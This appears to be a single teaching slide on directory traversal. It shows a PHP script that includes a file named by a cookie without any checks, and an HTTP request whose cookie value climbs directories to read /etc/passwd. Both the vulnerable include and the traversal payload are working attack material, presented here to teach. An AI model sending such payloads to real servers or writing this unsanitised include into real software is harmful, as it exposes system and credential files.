

# Directory Traversal Attack
PHP Code:
<?php
$template = 'red.php';
if (isset($_COOKIE['TEMPLATE']))
	$template = $_COOKIE['TEMPLATE'];
include ("/home/users/phpguru/templates/" . $template);
?>
HTTP Request:
GET /vulnerable.php HTTP/1.0
Cookie: TEMPLATE=../../../../../../../../../etc/passwd
13